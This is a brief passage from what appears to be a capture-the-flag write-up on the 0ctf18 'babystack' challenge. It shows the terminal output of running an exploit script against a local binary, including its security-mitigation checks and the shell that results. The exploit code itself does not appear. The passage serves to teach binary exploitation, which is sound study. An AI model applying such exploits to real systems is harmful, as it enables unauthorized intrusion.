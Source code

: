 When we run it:

```
$    python exploit.py
[+] Starting local process './babystack': pid 10847
[*] '/Hackery/pod/modules/ret2_csu_dl/0ctf18_babystack/babystack'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Switching to interactive mode
$ w
 23:51:29 up  6:59,  1 user,  load average: 0.18, 0.12, 0.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu :0       :0               16:58   ?xdm?   8:04   0.00s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu /usr/bin/gnome-session --session=ubuntu
$ ls
babystack  exploit.py  readme.md
```

Just like that, we popped a shell!